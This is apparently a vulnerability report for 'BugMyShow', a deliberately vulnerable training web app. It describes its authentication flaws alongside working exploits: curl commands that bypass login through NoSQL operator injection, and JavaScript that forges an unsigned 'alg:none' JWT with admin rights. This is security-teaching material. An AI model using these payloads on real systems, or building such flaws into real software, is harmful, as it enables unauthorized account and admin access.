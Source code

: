 # BugMyShow - Vulnerability Assessment Report

## Overview
This document outlines all security vulnerabilities present in the BugMyShow application, their locations, exploitation methods, and sample payloads.

⚠️ **WARNING**: This application is intentionally vulnerable and should NEVER be deployed in production.

---

## 1. Authentication Vulnerabilities

### 1.1 SQL/NoSQL Injection in Login
**Location**: `server/routes/auth.js` - Line 11-30  
**Severity**: Critical  
**Description**: Login endpoint accepts object-based queries allowing NoSQL injection.

**Exploitation**:
```bash
# Bypass authentication
curl -X POST http://localhost:5001/api/auth/login \
  -H "Content-Type: application/json" \
  -d '{"username": {"$ne": null}, "password": {"$ne": null}}'

# Alternative bypass
curl -X POST http://localhost:5001/api/auth/login \
  -H "Content-Type: application/json" \
  -d '{"username": {"$regex": ".*"}, "password": "bypass"}'
```

### 1.2 JWT Forgery (No Signature Verification)
**Location**: `server/middleware/auth.js` - Line 8-25  
**Severity**: Critical  
**Description**: JWT tokens are decoded without signature verification.

**Exploitation**:
```javascript
// Create forged JWT token
const header = btoa('{"alg":"none","typ":"JWT"}');
const payload = btoa('{"userId":"admin","username":"admin","isAdmin":true}');
const forgedToken = `${header}.${payload}.`;

// Use in requests
fetch('/api/admin/movies', {
  headers: { 'Authorization': `Bearer ${forgedToken}` }
});
```

### 1.3 Weak Password Policy
**Location**: `server/routes/auth.js` - Line 70-75  
**Severity**: Medium  
**Description**: No password strength requirements.
